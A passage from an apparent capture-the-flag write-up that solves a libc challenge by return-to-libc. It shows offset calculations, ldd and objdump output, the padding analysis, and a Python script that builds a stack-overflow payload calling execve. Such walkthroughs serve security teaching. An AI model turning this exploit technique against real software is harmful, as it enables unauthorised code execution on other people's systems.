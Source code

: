 ```
$ echo "0xf7660150" | python -c 'import sys; print(hex(int(sys.stdin.readline(),0) + 0x50520))' 
0xf76b0670
```
{:.contains-term}

> **NOTE**: Since we actually have access to the binary on the shell server, we can also directly access the version of libc it is using - let's double check that our "guesses" were right.
>
```
$ cd /problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33
$ ldd vuln
        linux-gate.so.1 =>  (0xf76e3000)
        libc.so.6 => /lib32/libc.so.6 (0xf751d000)
        /lib/ld-linux.so.2 (0xf76e4000)
$ objdump -T /lib32/libc.so.6 | grep -E " puts$| execve$"
0005f150  w   DF .text  000001d0  GLIBC_2.0   puts
000af670  w   DF .text  00000026  GLIBC_2.0   execve
```
{:.contains-term}

Oh, and let's not forget to check on the number of padding bytes:

```nasm
; ...
sub    esp,0xc
lea    eax,[ebp-0x9c]
push   eax
call   5b0 <gets@plt>
add    esp,0x10
;...
```
Since the buffer was 148 bytes, and `0x9c` is 156, we can see there are 8 bytes of padding.

## Exploitation

Putting it all together, the write to the buffer should look like this:

1. 156 bytes of don't care
2. 4 bytes overwriting preserved `ebp` (also don't care)
3. 4 bytes *return address* for vuln (`&puts` + `0x50520`  == `&execve`)
4. 4 bytes *return address* for `execve` (don't care - `execve` will never return)
5. 4 bytes arg1 (useful_string)
6. 4 bytes arg2 (`0` - linux specific hack)
7. 4 bytes arg3 (`0` - linux specific hack)

Or, in python:

```python
import sys, re, struct

p32 = lambda x : struct.pack('<L',x) #python2 version - packs 32 bit integer into 4 little-endian bytes

# read first 9 lines from stdin, grab the values we care about
matches = re.findall(r'(puts|useful_string): (.+)', "".join([sys.stdin.readline() for x in range(9)]))

execve = int(matches[0][1],0) + 0x50520
binsh = int(matches[1][1],0)
print("U"*(156+4) + p32(execve)) + "UUUU" + p32(binsh) + p32(0) + p32(0)
```

